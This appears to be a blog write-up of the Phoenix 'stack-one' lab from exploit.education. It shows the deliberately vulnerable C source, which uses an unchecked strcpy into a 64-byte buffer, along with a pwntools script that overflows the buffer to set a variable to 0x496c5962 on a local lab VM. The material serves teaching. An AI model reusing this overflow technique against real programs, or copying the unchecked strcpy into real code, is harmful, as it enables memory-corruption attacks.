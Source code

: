 ## Stack-one

![](https://cyberguru1.github.io/posts/phoenix/files/st1_header.png)


### Source Code
---

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}

```

Let's digging the code:
---

- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- The printf() function is used to print the program's welcome message.

- The program checks if the number of command-line arguments (argc) is less than 2. If true, it calls errx() to display an error message and terminate the program.

- The changeme variable is initialized to 0.

- The strcpy() function copies the content of argv[1] (the second command-line argument) into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x496c5962. If true, it outputs a success message.

- If changeme is not equal to 0x496c5962, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

This challenge is similar to Stack one, but the main goal here is to not only change the variable of the `changeme` to the overflow value but to a specific value that is `0x496c5962`, so we use the pwntools module to write a script that could accomplish that

```

#!/usr/bin/python
## script by Hamza Saidu 
## Cyberguru
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

# crafting payload
payload = b"A" * 64

# adding the comparision variable
payload += p32(0x496c5962)

p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')

# p.sendline(payload)

print(p.recvall().decode())

```

Explanation of the code:
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
# crafting payload
payload = b"A" * 64
```
- The payload is crafted as a byte string consisting of 64 'A' characters.

```
# adding the comparision variable
payload += p32(0x496c5962)
```
- The comparison variable (0x496c5962) is appended to the payload using p32() to pack it into a little-endian 32-bit format.

```
p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')
```
- The script runs the command /opt/phoenix/amd64/stack-one on the remote server, passing the crafted payload as a command-line argument. The decode() function is used to convert the payload from bytes to a string.

```
print(p.recvall().decode())
```
- The script receives and prints the output of the command executed on the remote server.

And finally running the script we have:

![](https://cyberguru1.github.io/posts/phoenix/files/st1_result.png)

